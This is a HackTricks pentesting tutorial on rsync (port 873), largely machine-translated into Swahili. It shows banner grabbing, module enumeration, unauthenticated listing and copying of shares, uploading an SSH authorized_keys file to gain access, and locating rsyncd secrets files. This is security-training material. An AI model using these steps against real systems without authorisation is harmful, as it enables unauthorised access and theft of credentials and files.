 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** ni chombo cha kuhamasisha [kuhamasisha](https://en.wikipedia.org/wiki/File_transfer) na [kuunganisha](https://en.wikipedia.org/wiki/File_synchronization) [faili](https://en.wikipedia.org/wiki/Computer_file) kati ya kompyuta na diski ngumu ya nje na kati ya [kompyuta](https://en.wikipedia.org/wiki/Computer) zilizounganishwa [mtandao](https://en.wikipedia.org/wiki/Computer_network) kwa kulinganisha [nyakati za mabadiliko](https://en.wikipedia.org/wiki/Timestamping_\(computing\)) na ukubwa wa faili.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) Inapatikana mara nyingi kwenye [sistimu za uendeshaji](https://en.wikipedia.org/wiki/Operating_system) zinazofanana na [Unix](https://en.wikipedia.org/wiki/Unix-like). Algorithimu ya rsync ni aina ya [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding), na inatumika kupunguza matumizi ya mtandao. [Zlib](https://en.wikipedia.org/wiki/Zlib) inaweza kutumika kwa [kuongeza](https://en.wikipedia.org/wiki/Data_compression) [kushinikiza data](https://en.wikipedia.org/wiki/Data_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) na [SSH](https://en.wikipedia.org/wiki/Secure_Shell) au [stunnel](https://en.wikipedia.org/wiki/Stunnel) zinaweza kutumika kwa usalama.

**Default port:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeration

### Banner & Mawasiliano ya Kiganja
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Kuhesabu Folda Zinazoshirikiwa**

**Moduli za Rsync** zinatambulika kama **ushirikiano wa directory** ambao unaweza kuwa **na nywila**. Ili kubaini moduli zinazopatikana na kuangalia kama zinahitaji nywila, amri zifuatazo zinatumika:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Kumbuka kwamba baadhi ya sehemu zinaweza kutokuwepo kwenye orodha, huenda zikifichwa. Aidha, kufikia baadhi ya sehemu kunaweza kuwa na vizuizi kwa **credentials** maalum, vinavyoonyeshwa na ujumbe wa **"Access Denied"**.

### [**Brute Force**](../generic-hacking/brute-force.md#rsync)

### Matumizi ya Manual Rsync

Baada ya kupata **module list**, hatua zinategemea kama uthibitisho unahitajika. Bila uthibitisho, **listing** na **copying** faili kutoka kwa folda iliyoshirikiwa hadi directory ya ndani inapatikana kupitia:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Hii mchakato **huhamasisha faili kwa njia ya kurudi**, ikihifadhi sifa na ruhusa zao.

Kwa **vithibitisho**, orodha na kupakua kutoka kwa folda iliyopewa inaweza kufanywa kama ifuatavyo, ambapo dirisha la nenosiri litajitokeza:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
Ili **kupakia maudhui**, kama vile faili ya _**authorized\_keys**_ kwa ufikiaji, tumia:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

Ili kupata faili ya usanidi la rsyncd, tekeleza:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
Katika faili hii, parameter ya _secrets file_ inaweza kuelekeza kwenye faili inayoshikilia **majina ya watumiaji na nywila** za uthibitishaji wa rsyncd.

## Marejeleo

* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
